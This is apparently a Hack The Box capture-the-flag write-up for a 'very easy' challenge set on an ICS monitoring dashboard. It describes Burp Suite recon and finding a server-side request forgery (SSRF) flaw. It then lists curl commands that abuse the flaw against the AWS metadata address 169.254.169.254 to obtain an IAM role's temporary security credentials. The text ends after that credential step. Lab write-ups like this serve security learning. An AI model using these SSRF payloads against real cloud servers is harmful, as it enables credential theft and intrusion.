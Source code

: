 **Description:**  
After a relentless week-long effort, a lone Task Force operative successfully breached Volnaya's cloud-based ICS monitoring network, securing us permanent access to their front-end monitoring dashboard and opening a critical window into their industrial infrastructure. Your goal is to infiltrate deeper, locate sensitive data, and enable the Task Force to assume control of their core systems. IP: 3.15.107.79  
**HTB Difficulty Rating:** Very easy  
**How it felt:** WOOOH LIMITLESS PAIN!

# Steps taken
## Initial Recon and discovery:
Unfortunately, Shodan.io didn't have any information on this 3.15.107.79, but IP identified it as an Amazon AWS server. Launched community Burp Suite and browsed to 3.15.107.79 where a dashboard was presented. The Dashboard contained multiple blocks of information and an input button (Check Status).
![Visual ICS Monitoring Dashboard](Dashboard.png)  

When inspecting the response in HTTP History of Burp Suite, the button sends a POST request to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status, leading to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/, revealing https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private which unfortunately required an authentication token.
![Form](Form.png)   
![Private Endpoint API](Endpoints.png)

Tinkered with https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private in curl for a bit and eventually got stuck requiring a security token. Resulted in pivoting back to the Dashboard, and was curious to see what would happen if the URL was switched in the form to https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/private. The result appeared to do something, combined with the alert (potential hint) previously on the dashboard about a successful SSRF attack led to 2 hours of research on SSRF.
![Modified_Form](Modified_Form.png)   
![Result](Result_Of_MF.png)

## Credential Gathering
**These next steps could be done using the form, but I found myself using curl instead.**   
**Fun Note:** AWS uses 169.254.169.254 as the metadata-IP where the metadata service can be accessed via http://169.254.169.254/latest/meta-data/ from the E2 instance.
1) Used ```curl -X POST http://3.15.107.79/ -d "url=https://inyunqef0e.execute-api.us-east-2.amazonaws.com/api/status"``` to test curl and see what would happen to the output. The output appeared to be a huge chunk instead of nicely spread out. This led me to further investigate SSRF on http://3.15.107.79/
   
2) Next tried ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/"``` revealing the **iam/** metadata key. The goal was to extract the temporary security credentials from ```iam/security-credentials/role-name```.   
![I am](iam_exposed.png)   
3) Used ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"``` to get the role-name which was "APICallerRole"   
![Role Name](Role_Name.png)
4) To get the temp security credentials used ```curl -X POST http://3.15.107.79/ -d "url=http://169.254.169.254/latest/meta-data/iam/security-credentials/APICallerRole"```   
![Temp Sec Credentials](Temp_Sec_Credentials.png)
   
